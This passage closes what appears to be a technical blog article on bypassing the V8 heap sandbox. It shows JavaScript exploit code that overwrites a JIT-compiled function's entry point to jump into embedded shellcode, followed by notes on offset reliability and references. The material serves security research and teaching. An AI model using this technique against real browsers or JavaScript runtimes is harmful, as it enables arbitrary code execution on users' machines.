 /* get a pointer to the foo.code object */
let code = (read(addrof(foo) + 0x18n) - 1n) & 0xffffffffn;

/* get the entry point of the compiled function */
let entry = (read(code + 0xcn));

/* overwrite the entry point with the start of the shellcode */
write(code + 0xcn, entry + 0x69n);

foo();
{{< /code >}}

One last thing to note, while this exploit technique does seem fairly stable, different kernel versions or platforms will affect the offsets of the immediate numbers in the JIT compiled code. 

This poses a slight problem as it significantly affects the reliability. Obviously techniques already exist to combat this issue - e.g. incrementing the offsets until the exploit executes successfully.

I do have some ideas I'd like to explore further around increasing exploit reliability - but those will come in another article.


## References 
 - [V8 Sandbox - High-Level Design Doc](https://docs.google.com/document/d/1FM4fQmIhEqPG8uGp5o9A-mnPB5BOeScZYpkHjo0KKA8)
 - [V8 Sandbox - External Pointer Sandboxing](https://docs.google.com/document/d/1V3sxltuFjjhp_6grGHgfqZNK57qfzGzme0QTk0IXDHk)
 - [Dice CTF Memory Hole: Breaking V8 Heap Sandbox](https://mem2019.github.io/jekyll/update/2022/02/06/DiceCTF-Memory-Hole.html)

